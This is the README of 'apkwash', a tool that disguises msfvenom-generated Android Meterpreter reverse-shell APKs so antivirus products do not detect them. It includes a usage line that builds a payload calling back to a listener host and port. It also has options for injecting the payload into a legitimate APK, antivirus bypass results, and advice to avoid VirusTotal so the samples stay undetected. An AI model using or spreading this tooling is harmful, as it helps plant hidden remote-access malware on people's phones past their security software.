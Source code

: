 # apkwash
Android APK Antivirus evasion for msfvenom generated payloads.
<br><br>
<b> -- Please do not upload "washed" files to VirusTotal.com -- </b><br>
<br>
<br>
<b> Tested on Kali linux rolling. </b><br>
<br>
<br>
<b>Setup:</b><br>
apt-get update && apt-get upgrade<br>
chmod +x apkwash<br>
mv apkwash /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<br>
<b>Usage:</b><br>
apktool -p android/meterpreter/reverse_http LHOST=192.168.1.40 LPORT=1337 -o \<payload>.apk<br>
<br>
<b>Input Options:</b><br>
-p | --payload \<payload>       : (Default: android/meterpreter/reverse_https) This sets the payload to be generated by msfvenom.<br>
-o | --output \<outfile.apk>    : (Default: payload.apk) This sets the name of the APK created as well as the output filename.<br>
-x | --original \<infile.apk>   : (MSFVenom -x) Input APK to inject the payload into.<br>
-x | --newkey                   : For auto-removing debug key to allow the creation of a new key within the script<br>
-d | --debug                    : Don't remove the /tmp/payload directory<br>
-v | --verbose                  : Don't mask output of commands<br>
-h | --help                      : Help information<br>
<br>
<b>Output:</b><br>
\<payload>.apk & \<payload>.listener<br>
<br>
<b>Antivirus detection:</b><br>
0/35 on nodistribute - 20Mar17<br>
Verified for AVG mobile<br>
Verified for Kaspersky mobile<br>
Verified for Lookout<br>
FLAGGED BY AVAST! -- signature bypass coming soon. Haven't spent any time on this<br>
APK:CloudRep[Susp] is the report for the suspicious app on Avast. <br>
Per Avast: "the APK:CloudRep [Susp] is a warning-like message for applications that are very new/rare/previously unseen in our userbase."<br>
<br>
<b>Modifiations:</b><br>
Feel free to open the script and make improvements. This script basically utilizes APKTool to open the package, uses sed to replace strings that flag AV, recompiles, then signs.<br>
<br>
<br>
<b>Files:</b><br>
/tmp/payload    (Main files to review: AndroidManifest.xml and the smali files)
<br>
<br>
<b>Debugging</b><br>
Comment out the removal of the /tmp/payload directory to see the file structure that was compiled.<br><br><br>
<b>If you are seeing other "Payload".smali files in /tmp/payload/smali/com/var1/var2/ then be sure you have an updated system. I have found an older msfvenom version output a different payload that will be flagged by AVG (1/35 on nodistribute). Just making sure you are completely updated should resolve this.</b>
